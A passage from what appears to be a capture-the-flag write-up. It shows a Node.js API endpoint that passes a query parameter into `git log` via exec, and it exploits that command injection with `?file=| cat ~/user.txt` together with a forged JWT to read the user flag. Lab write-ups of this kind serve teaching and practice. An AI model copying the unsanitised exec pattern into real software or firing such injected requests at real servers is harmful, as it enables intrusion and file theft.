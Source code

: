 Looks like our token works! Now we just have to exploit that undocumented API endpoint we saw earlier.

## User

### Getting user.txt

First, just a proof of concept. We're going to continue to pass the JWT we created earlier in the header as the `auth-token` for all of our API requests.

Again, this is the code we're exploiting

```javascript
router.get('/logs', verifytoken, (req, res) => {
    const file = req.query.file;
    const userinfo = { name: req.user }
    const name = userinfo.name.name;
    
    if (name == 'theadmin'){
        const getLogs = `git log --oneline ${file}`;
        exec(getLogs, (err , output) =>{
            if(err){
                res.status(500).send(err);
                return
            }
            res.json(output);
        })
    }
```

So basically the endpoint just executes this command and sends back the results

```bash
git log --oneline ${file}
```

We just have to pass in the value of `file` as a parameter called `file`.

Let's try getting `user.txt`. To do that, we just have to get the server to execute 

```bash
cat ~/user.txt
```

To do that, we can make an API request with `| cat ~/user.txt` in the file parameter, like this

```
http://10.10.11.120:3000/api/logs?file=| cat ~/user.txt
```

*__Note:__ I used the* `|` *at the beginning instead of a* `;` *just to get rid of any extra output from the* `git logs --oneline` *call*

And we get back the flag! (with an extra `\n` at the end)

### Enumeration
